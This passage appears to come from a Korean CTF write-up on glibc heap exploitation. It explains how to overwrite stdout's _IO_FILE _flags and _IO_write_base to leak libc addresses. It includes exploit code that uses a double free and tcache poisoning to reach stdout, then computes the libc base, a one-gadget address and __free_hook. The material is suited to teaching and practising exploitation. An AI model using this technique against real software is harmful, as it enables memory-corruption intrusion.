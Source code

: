 ![./11.png](./11.png)

- _IO_FILE 구조체의 stdout을 확인해 보면 우리가 변조해야 할 부분은 `_flags`, `_IO_write_base` 이다.
- 기존의 stdout flags 값은 `0xfbad2887` , `_IO_IS_APPENDING` 플래그가 존재하지 않기 때문에 `0xfbad2887 | 0x1000` 값으로 조작하자
- `_IO_write_base` 값의 하위 바이트를 `\x20` 으로 조작해 라이브러리 주소를 출력 한다.

```cpp
# double free bug
free(0)
free(0)
free(0)

alloc(0x38, "\x70")
alloc(0x38, "A")
alloc(0x38, "\x60") # stdout 1 byte \x60

alloc(0x38, p64(0xfbad1887)+p64(0)*3 + "\x20")

libc = uu64(r(8)) - 0x3eb780
one_shot = libc+0x4f3c2
free_hook = libc+0x3ed8e8
leak("libc",libc)
leak("one_shot ",one_shot)
leak("free_hook",free_hook)
```
